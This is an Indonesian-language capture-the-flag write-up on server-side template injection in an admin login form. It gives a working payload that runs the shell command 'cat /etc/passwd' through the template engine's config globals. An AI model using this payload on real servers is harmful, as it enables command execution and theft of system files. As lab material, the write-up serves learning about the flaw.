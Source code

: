 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

[SSTI1](SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
   
3. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.
   
[Login](SSTI1.1.png)
4. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.

[Output](SSTI1.2.png)

5. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
6. Jika berhasil, Anda dapat membaca file sensitif pada server.
7. 
[Flag](SSTI1.3)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)

